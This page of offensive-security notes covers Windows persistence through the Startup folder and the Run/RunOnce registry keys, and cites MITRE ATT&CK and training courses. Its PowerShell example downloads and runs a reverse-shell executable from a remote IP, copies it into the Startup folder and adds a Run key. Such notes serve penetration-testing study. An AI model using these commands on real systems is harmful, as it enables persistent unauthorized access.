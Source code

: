 ## StartUp folder
The startup folder path for the current user is
`C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.

The startup folder path for all users is
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`.


## Registry key
The following run keys are created by default on Windows systems:
-   `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`
-   `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`
-   `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`


## Example
```powershell
# Gaining foothold
wget http://192.168.0.12:8000/reverse.exe -o $env:TEMP\jkr.exe; Invoke-Item $env:TEMP\jkr.exe

# Adding malware to the user start menu folder
msf> cd "C:\Users\talion\AppData\Roaming\Microsoft\Windows\Start Menu\Programs"
msf> cp $env:TEMP\jkr.exe .

# Add key to registry
msf> New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name jkr -Value "C:\Users\talion\AppData\Roaming\Microsoft\Windows\Start Menu\Progra  ms\jkr.exe" -PropertyType String -Force

# print new registry entries
msf> Get-ChildItem -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\' 
```


## Resources
- MITRE ATT&CK - Boot or Logon Autostart Execution : https://attack.mitre.org/techniques/T1547/001/
- TCM - Startup persistence : https://academy.tcm-sec.com/courses/1444641/lectures/33152746
- TCM - Autorun persistence : https://academy.tcm-sec.com/courses/1444641/lectures/33152747


